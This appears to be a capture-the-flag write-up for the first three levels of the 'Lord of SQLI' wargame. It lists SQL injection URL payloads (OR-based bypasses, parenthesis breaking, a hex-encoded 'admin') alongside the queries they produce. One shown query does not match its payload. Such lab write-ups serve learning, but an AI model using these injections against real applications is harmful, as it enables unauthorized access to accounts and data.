 ```yaml
---
description: 'https://los.rubiya.kr/'
---
```


# Lord of SQLI

## 1. Gremlin

URL Solution: ?pw=' OR ''= '

QUERY: select id from prob\_gremlin where id='' and pw='' OR '1'= '1'

## 2. Cobolt

URL: ?pw='\) OR \( id = 'admin

QUERY: select id from prob\_cobolt where id='' and pw=md5\(''\) OR \( id = 'admin'\)



## 3. Goblin

URL: ?no=no OR 1=1 ORDER BY id

QUERY: select id from prob\_goblin where id='guest' and no=no OR 1=1 ORDER BY id

---

URL: ?no=0 or id=0x61646d696e

QUERY: select id from prob\_goblin where id='guest' and no=0 or id=0x61646d696e

